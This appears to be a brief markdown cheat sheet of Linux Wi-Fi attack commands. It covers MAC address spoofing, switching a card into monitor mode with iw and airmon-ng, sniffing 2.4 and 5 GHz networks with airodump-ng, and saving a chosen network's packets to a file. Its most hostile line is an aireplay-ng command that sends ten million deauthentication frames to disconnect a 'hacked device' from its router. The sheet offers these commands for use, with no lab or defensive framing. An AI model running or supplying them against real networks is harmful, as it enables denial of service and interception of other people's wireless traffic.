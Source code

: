 #### Change MAC Address

```bash
$ sudo ip link set dev <your device> address <your new mac address>

ip link set dev wlan0 address FA:EF:0E:44:FE:68
$ # ifconfig <your device here> hw ether 00:11:22:33:44:55
# 6c:62:6d:c8:e4:d9
```

#### Set monitor mode

```bash
sudo ip link set dev <your device> down

sudo airmon-ng check kill

sudo iw <your device> set monitor none
# sudo iwconfig <your device> mode monitor
```

#### Set monitor mode (using airmon-ng)

```bash
airmon-ng
airmon-ng check
airmon-ng check kill
airmon-ng start wlan0
```

#### Set managed mode

```bash
sudo iw <your device> set type managed
# sudo iwconfig wlan0 mode managed
```

#### Run monitor scan

```bash
airodump-ng <your device>
airodump-ng --band a wlan0 # Sniff 5GHz networks
airodump-ng --band abg wlan0 # Sniff 2.4 and 5GHz networks
```

#### Disconnect specific device from the network

```bash
aireplay-ng --deauth 10000000 -a <mac addr router> -c <mac addr hacked device> <your device>
```

#### Run monitor mode for specific network and save packets to file

```bash
airodump-ng --bssid <mac addr router> --channel <number of router channel> --write <name of saved file> <your device>
```
